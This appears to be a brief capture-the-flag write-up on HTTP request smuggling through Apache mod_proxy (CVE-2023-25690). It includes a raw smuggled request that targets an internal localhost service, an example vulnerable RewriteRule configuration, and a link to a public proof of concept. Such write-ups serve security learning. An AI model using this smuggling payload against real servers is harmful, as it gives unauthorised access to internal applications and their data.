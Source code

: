 # HTTP Parameter Pollution

## Website 

<img src= "HTBank_Website.PNG">

## Description



## Set Up

1. Burpsuite Repeater.
2. Had to run the application locally for debugging purposes.
3. Reading a lot of Apache documentation. 
4. Request before being url encoded:
  ```html
GET /api/games/click_topia HTTP/1.1

Host: dev.apacheblaze.local



GET / HTTP/1.1

Host: localhost:1337
```
## ChatGPT
<img src= "chatgpt_exploit.PNG">



## Exploit
<img src= "burp_request.PNG">

## More Information
Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like:
```python
RewriteEngine on 
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
ProxyPassReverse /here/ http://example.com:8080/
```
[CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
<summary> The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.</summary>



